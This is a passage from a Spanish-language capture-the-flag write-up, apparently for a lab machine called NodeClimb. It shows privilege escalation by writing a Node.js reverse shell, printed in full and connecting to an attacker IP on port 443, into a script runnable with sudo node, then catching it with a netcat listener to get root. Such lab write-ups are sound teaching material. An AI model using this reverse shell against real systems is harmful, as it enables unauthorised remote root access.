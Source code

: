 - Por lo que entramos por SSH y vemos que podemos ejecutar como cualquier usuario el binario node pero solo el script que hay en /home/mario.

![10](/assets/img/writeups/NodeClimb/10.png)

- Si abrimos el script, vemos que está vacido. Podemos meter una reverse shell y ejecutarla como root para conseguir privilegios.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "192.168.1.246", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

```

- En la máquina atacante, en nuestro kali, ejecutamos primero:

`nc -nlvp 443`

- Y luego ejecutamos el script

- Si se queda colgado y en nuestra máquina conseguimos la bash lo hemos hecho bien.

- Ahora ejecutamos `whoami` y vemos que somos root.

![11](/assets/img/writeups/NodeClimb/11.png)
